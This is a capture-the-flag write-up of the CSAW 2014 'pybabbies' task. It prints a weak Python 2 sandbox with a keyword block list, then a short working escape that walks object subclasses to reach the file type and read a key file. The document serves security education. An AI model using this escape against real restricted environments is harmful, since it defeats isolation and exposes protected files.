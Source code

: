 Title: CSAW 2014 Writeup: pybabbies
Date:   2014-09-26
Category: writeups
Tags: ctf,writeups,csaw,exploitation
Slug: csaw14
Authors: rixx
Summary: Writeup of the pybabbies task at the recent CSAW14. Category: Exploitation. Points: 200. Team: krebs.

At the recent [CSAW14](https://ctf.isis.poly.edu/challenges#) I participated with the [krebs](http://krebsco.de/writeups/index.html) team. Sadly, I had only little time for the CTF, but I managed to complete one task nonetheless. It was called **pybabbies**, belonged to the category **Exploitation** and yielded **200** points (on a scale from 100 to 500).

## The Task

We were to connect to `54.165.210.171 12345` where we were greeted by a Python shell. Thankfully the code for this shell was included in the task:


    #!/usr/bin/env python 
    
    from __future__ import print_function
    
    print("Welcome to my Python sandbox! Enter commands below!")
    
    banned = [
        "import",
        "exec",
        "eval",
        "pickle",
        "os",
        "subprocess",
        "kevin sucks",
        "input",
        "banned",
        "cry sum more",
        "sys"
    ]
    
    targets = __builtins__.__dict__.keys()
    targets.remove('raw_input')
    targets.remove('print')
    for x in targets:
        del __builtins__.__dict__[x]
    
    while 1:
        print(">>>", end=' ')
        data = raw_input()
    
        for no in banned:
            if no.lower() in data.lower():
                print("No bueno")
                break
        else: # this means nobreak
            exec data

As you can see, this is a Python2 script. What it does is essentially the following:

* It removes all builtin functions and variables except for `raw_input` and `print`. This means we can't use any implicitly or explicitly used builtins such as `len` (which is commonly implicitly used in existental statements).
* It starts a REPL loop.
* It executes every (one-line) command we enter … except if it contains a banned word. Such as … `import`. Or `sys`. Or `os`. Or `eval` or `exec` or `input`. Basically everything we would want to escape the sandbox and find the keyfile.


## The Solution

Now, what we really want to do, is getting access to a file without importing any module, sending executable input or using builtin functions. This means we need access to the `file` type, which we can use to access and open files. Sooo, how do we access a file without any of this?

    >>> subclasses = ().__class__.__base__.__subclasses__()

This might look like a bit of magic, but it's really not that bad. Basically it takes a normal (albeit empty) tuple, `()`, then gets its class, which is `<type 'tuple'>`. `__base__` gets the base class of `tuple` which is `object`. `__subclasses__()` is closest to magic. It returns a list of weak references of the immediate subclasses of a class. Thankfully, in Python many classes subclass `object` directly. If this hadn't succeeded, we'd just gone on level further down the `__subclasses__()` output.

But we were lucky: at `subclasses[40]` there was `<type 'file'>`. The remainder was just finding the keyfile.

    >>> file_type = subclasses[40]
    >>> key_file = file_type('./key','r')
    >>> key = key_file.read()
    >>> print(key)
    flag{definitely_not_intro_python}

